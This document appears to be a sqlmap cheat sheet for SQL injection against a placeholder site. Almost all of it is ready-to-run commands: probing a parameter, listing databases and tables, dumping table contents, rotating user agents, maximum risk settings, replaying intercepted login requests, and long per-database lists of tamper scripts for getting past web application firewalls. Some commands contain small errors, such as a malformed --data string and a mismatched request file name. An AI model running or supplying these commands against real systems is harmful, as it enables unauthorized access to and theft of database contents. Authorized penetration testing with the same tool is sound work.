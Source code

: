 SQLMAP

Methodology:

*command to scan for vulnerabilities and very versbose option

    $sqlmap -u <target URL> -v 4

**scan with parameter id

    $sqlmap -u http://target.tld/product.php?id=12 -p id -v 4


***scan and enumerate database

    $sqlmap -u http://target.tld/product.php?id=12 -p id --dbs -v 4


****enumerate the list of tables in a database: 

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> --tables -v 4

*****dump data from a table:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump -v 4

------------------------------------------------------------------------------------------------------------------------------------------

Tricks:

-Use Random User-Agent:

    $sqlmap -u http://target.tld/product.php?id=12 -p id -D <database name> -T <table name>  --dump --random-agent -v 4 


-Using the most dangerous queries (when the web application is in demo mode)

    --risk : 1-3 => 3
    --level: 1-5 => 5
    $sqlmap -u http://target.tld/product.php?id=12 -p id --risk 3 --level 5



-send data with sqlmap request and change HTTP method:

    $sqlmap -u http://target.tld/product.php?id=12 -p id --data="username:admin&password="admin" --method="POST"

-delay trick:
time delay => --delay=<TIME>

    $sqlmap -u http://target.tld/product.php?id=12 -p id --level 5 --delay=10

-add HTTP header manually :
--headers=""

    $sqlmap -u http://target.tld/product.php?id=12 -p id --headers="HOST:target.tld  \nauthorization:bearer ...\nuser-agent:aaaaa\n ...." --cookie="PHPSESSIONID=...;"


-add a intercepted HTTP file : 

    intercept a HTTP request and save it in a file(data.txt) and use sqlmap
    data.txt:
    POST /target.tld/login.php?id=2 HTTP/1.1
    Host: target.tld
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: multipart/form-data; 
    Origin: http://target.tld
    Connection: keep-alive
    Referer: http://target.tld
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    
    
    
    username=admin&password=admin
    use sqlmap:
    $sqlmap -r data.req -p username --batch




-login MySQL server with sqlmap:

    sqlmap -d "mysql://username:password@TARGET:3306/testDB"




-bypass WAF:

--tamper 
 
    $sqlmap -u http://target.tld/product.php?id=12 -p id --tamper=<SCRIPT>

        # All scripts
    --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # General scripts
    --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # Microsoft access
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
    
    # Microsoft SQL Server
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
    
    # MySQL
    --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
    
    # Oracle
    --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
    
    # PostgreSQL
    --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
    
    # SAP MaxDB
    --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
    
    # SQLite
    --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor

